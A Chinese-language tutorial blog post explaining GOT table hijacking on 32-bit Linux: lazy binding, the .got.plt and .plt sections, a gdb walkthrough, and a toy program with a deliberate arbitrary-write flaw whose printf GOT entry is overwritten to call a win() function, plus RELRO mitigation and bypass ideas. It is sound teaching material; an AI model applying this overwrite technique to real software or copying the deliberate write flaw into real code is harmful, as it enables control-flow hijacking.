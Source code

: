 ```yaml
---
title: GOT 表劫持原理
categories: 漏洞利用
abbrlink: 1e59798b
date: 2018-09-19
---
```


## 链接

在程序从源代码到生成最终的可执行程序，会大体经历编译、汇编、链接三个阶段。编译将源代码转换成为汇编语言（例如.s后缀的文件），汇编阶段将汇编语言转换成机器码（例如.o文件）。链接阶段会合并多个目标文件（上一阶段生成的.o）以及静（动）态链接库中的代码数据等信息，修复文件之间的引用关系，最后生成可执行程序。

<!-- more -->

在链接这个过程中，静态链接库的代码和数据会被拷贝一份到可执行程序中。动态链接库则只是包含有引用关系，在程序运行时再通过动态链接加载。

动态链接库比如Linux中的.so，Windows中的.dll，macOS中的.dylib文件。静态链接库比如.lib、.a文件。

### 延迟绑定

正如由于我们在[链接]部分提到的，采用动态链接库的话，那么在二进制程序中，引用外部库函数的地方，都只是占位符，并不实际指向函数地址。那么在程序启动时，就需要花费大量的时间对函数进行连接，比如模块间函数引用的符号查找、重定位等，这样的做法非常影响程序的性能。而且也并不是程序的每一个分支，都会在运行过程中被使用到。没有运行到的这部分即使没有被链接，也不会有任何影响，反而消耗了程序的性能。

延迟绑定机制就是针对上述情况的缓解方案，当**外部函数第一次被调用**的时候，才会进行绑定（符号查找，重定位等链接）。如果函数在整个程序运行过程中，都没有被调用，那么它就不会进行绑定。这样的机制在保留动态链接的优势下，还可以加快程序的启动速度。

### GOT表（Global Offset Table，全局偏移表）

GOT表位于.got和.got.plt Section

* .got Section 存放**外部全局变量**的GOT表，程序运行开始就会被加载进来，非延迟绑定，例如stdin/stderr等。
* .got.plt Section中存放的是**外部函数**的GOT表，例如printf，使用延迟绑定机制。

.plt Section （Procedure Linkage Table，程序链接表）对应存放的是.got.plt中所有外部函数对应的plt代码。

## 调试

我们用最简单的代码来认识一下延迟绑定的过程以及GOT表是如何工作的。

```c
#include <stdio.h>
int main()
{
    puts("hello harpersu00!\n");
}
```

使用命令 `gcc test.c -m32` 将上面的示例编译成a.out可执行文件ELF格式。

然后使用 `objdump -s -d a.out` 命令查看各个section以及反汇编代码。

.plt section 如下所示：

```shell
Disassembly of section .plt:

080482d0 <.plt>:
 80482d0:	ff 35 04 a0 04 08    	pushl  0x804a004 //push link_map
 80482d6:	ff 25 08 a0 04 08    	jmp    *0x804a008 //jump to _dl_runtime_resolve
 80482dc:	00 00                	add    %al,(%eax)
	...

080482e0 <puts@plt>:
 80482e0:	ff 25 0c a0 04 08    	jmp    *0x804a00c //值为0x80482e6
 80482e6:	68 00 00 00 00       	push   $0x0
 80482eb:	e9 e0 ff ff ff       	jmp    80482d0 <.plt>

080482f0 <__libc_start_main@plt>:
 80482f0:	ff 25 10 a0 04 08    	jmp    *0x804a010
 80482f6:	68 08 00 00 00       	push   $0x8
 80482fb:	e9 d0 ff ff ff       	jmp    80482d0 <.plt>
```

.got.plt section :

```shell
Contents of section .got.plt:
 804a000 149f0408 00000000 00000000 e6820408  ................
 804a010 f6820408 
```

我们通过 `gdb a.out` 命令来调试程序，可以看得更清晰一点。

```shell
(gdb) disassemble main
Dump of assembler code for function main:
   0x0804840d <+0>:	push   %ebp
   0x0804840e <+1>:	mov    %esp,%ebp
   0x08048410 <+3>:	and    $0xfffffff0,%esp
   0x08048413 <+6>:	sub    $0x10,%esp
   0x08048416 <+9>:	movl   $0x80484c4,(%esp)
   0x0804841d <+16>:	call   0x80482e0 <puts@plt>  //在这个地址下断点
   0x08048422 <+21>:	leave  
   0x08048423 <+22>:	ret    
End of assembler dump.
(gdb) break *0x804841d  //下断点
Breakpoint 1 at 0x804841d
(gdb) display /3i $eip  //断点处打印$eip之后的3行内容
(gdb) r
Starting program: /xxx/a.out 

Breakpoint 1, 0x0804841d in main ()
1: x/3i $eip
=> 0x804841d <main+16>:	call   0x80482e0 <puts@plt>
   0x8048422 <main+21>:	leave  
   0x8048423 <main+22>:	ret    
Missing separate debuginfos, use: debuginfo-install glibc-2.17-307.el7.1.i686
(gdb) si  //进入.plt section
0x080482e0 in puts@plt ()
1: x/3i $eip
=> 0x80482e0 <puts@plt>:	jmp    *0x804a00c
   0x80482e6 <puts@plt+6>:	push   $0x0
   0x80482eb <puts@plt+11>:	jmp    0x80482d0
(gdb) x/wx 0x804a00c //跳到puts@plt+0x6的位置
0x804a00c:	0x080482e6
(gdb) x/4wx 0x804a000 //查看.got.plt表的内容, 0x804a00c就是puts函数在got表中的地址
0x804a000:	0x08049f14	0xf7ffd900	0xf7fefea0	0x080482e6
```

.got.plt表中存放的是每个外部函数的地址，在延迟绑定之前，存放的是该外部函数在.plt表中的地址+0x6；在绑定之后，存放的是该函数的实际地址。

```shell
(gdb) b *0x08048422  //在puts函数调用之后下断点
Breakpoint 2 at 0x8048422
(gdb) c
Continuing.
hello harpersu00!

Breakpoint 2, 0x08048422 in main ()
1: x/3i $eip
=> 0x8048422 <main+21>:	leave  
   0x8048423 <main+22>:	ret    
   0x8048424:	xchg   %ax,%ax
(gdb) x/4wx 0x804a000 //.got表中的函数地址改变了，变成了函数的实际地址
0x804a000:	0x08049f14	0xf7ffd900	0xf7fefea0	0xf7e60a40
(gdb) x/wx 0x804a00c //puts函数在got表中的地址
0x804a00c:	0xf7e60a40
(gdb) p puts //puts函数的实际地址
$2 = {<text variable, no debug info>} 0xf7e60a40 <puts>

```

所以整个过程就是，

函数第一次被调用处 -> .plt表中(puts@plt) -> 跳转到 .got表中函数偏移处记录的地址，即puts@plt+0x6 -> 跳转到.plt表的首地址，进行符号解析加载 -> 修改.got表中的函数地址为实际地址。

函数第二次调用 ->  .plt表中(puts@plt) -> 跳转到 .got表中函数偏移处记录的地址，函数的真实地址。

那么，如果我们修改了.got表中该函数偏移处的地址，就会跳转到我们设定的地址处执行啦，这就是GOT表劫持。



## GOT表劫持实现

原理： 因为延迟绑定机制会回写GOT表，因此开启延迟绑定，则GOT表是可写的，GOT表所在的内存有w权限。如果漏洞利用可以改写GOT表，那么就可以劫持PC，跳转到自己写的code上取执行。

```c
#include <stdio.h>
#include <stdlib.h>

void win() {
    puts("You Win!");
}

void main() {
    unsigned int addr, value;
    scanf("%x=%x", &addr, &value);
    *(unsigned int *)addr = value;
    printf("set %x=%x\n", addr, value);
}
```

同样使用 `gcc test.c -m32 -o hijack_got` 命令编译源文件，得到 hijack_got可执行文件。

```shell
[user@xx]# objdump -R hijack_got | grep printf
0804a00c R_386_JUMP_SLOT   printf@GLIBC_2.0
[user@xx]# objdump -d hijack_got | grep win
0804848d <win>:
[user@xx]# ./hijack_got 
0804a00c=0804848d
You Win!
```

上述示例通过将printf的.got表地址修改为win函数的地址，从而实现GOT表劫持。

## 缓解措施

通过编译选项 gcc -z,relro，可以设置重定位只读。这样在进入main()函数之前，所有的外部函数都会被解析，对于外部函数很多的程序，效率会明显降低。

绕过Relocation Read Only：

* 劫持开启该保护的动态库的GOT表，例如libc
* 改写函数指针或返回地址 
